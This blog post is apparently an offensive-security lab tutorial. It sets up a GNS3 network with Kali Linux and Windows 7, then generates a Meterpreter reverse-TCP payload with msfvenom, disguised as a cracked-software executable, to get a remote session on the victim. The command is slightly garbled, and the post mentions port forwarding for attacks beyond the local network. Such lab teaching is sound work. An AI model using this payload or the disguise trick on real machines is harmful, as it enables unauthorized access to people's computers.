 ```yaml
---
title: Accessing the victim’s computer using the Msvenom
author: Nishal Rai
date: 2022-08-17 20:55:00 +0800
categories: [Offensive]
tags: [getting started]
---
```


Before we begin the practical assessment of the attack by using Msvenom which is a Metasploit framework, we need to understand the actual work going behind the attack. We are trying to access the victim’s computer which is currently running Windows 7 as Operating System.This practical assessment will be conducted by creating a virtual environment within the computer and then configuring each and every necessary device within the virtual environment. To perform this remote access control hacking using Msvenom, we need to install GNS3, VMWare or VirtualBox which will host any Linux distros (Kali Linux, Parrot OS & other) – I will be using Kali Linux 2020 and then a victim’s computer where Windows 7 is used for this assessment.When you have installed GNS3 on your computer then you need to make a simple topology as shown in the figure to carry out the operation.


Here, we place a router as a Core Router which is linked up with ISP and then a Core Switch connected with two end-users: Kali Linux as an attacker and Windows 7 as a victim within the same network. However, in real-life scenario, attacker may not be present in the same network of victim but can even build remote access to the victim’s computer using the port forwarding technique.The attack will be carried out once all the devices within the virtual environment are carried out. Initially, router is configured with the following values as displayed below:


Here, interface f0/0 is assigned 10.10.10.1/24 network address which has as a 10.10.10.1 ip address and 255.255.255.0 as a subnet mask. Interface f0/1 is assigned 192.168.108.128.Similarly, the end devices Windows 7 (victim) is assigned 10.10.10.15/24 and Kali Linux (attacker) is assigned as 10.10.254/24. Here, both the end devices will have 10.10.10.1 as a default gateway in order to communicate with the core router as shown in the above illustrated figure.Once all the configuration of the devices is configured then try to ping the end devices with another device such as:Windows 7 ping successful with the Core Router and Kali Linux OS:



Kali Linux successfully pings Windows 7 and Core Router:



Then a script is developed using Msvenom which is a Metasploit Framework:




```
Msf5> msfvenom -p windows / meterpreter / reverse tcp LHOST=10.10.10.254 LPORT=5555 -f exe -o /home/kali/Desktop/IDMCrack.exe
```

A executable file is developed and will be saved in the desktop of Kali Linux. Then the file should be run into the victim computer and a session will be established between the victim’s pc (Windows 7) and Kali Linux (attacker) which enables the attacker to perform various possible attacks over victim’s pc.
